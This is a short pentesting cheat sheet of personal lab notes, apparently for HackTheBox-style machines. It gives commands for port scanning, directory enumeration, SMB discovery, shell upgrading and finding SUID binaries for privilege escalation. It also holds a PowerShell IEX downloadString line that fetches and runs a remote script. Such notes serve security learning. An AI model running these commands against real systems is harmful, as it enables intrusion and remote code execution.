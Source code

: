 # Penetration Testing Cheat Sheet
Captured learning notes

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

## Connect to pop3
```bash
openssl s_client -connect chaos.htb:995
```
```
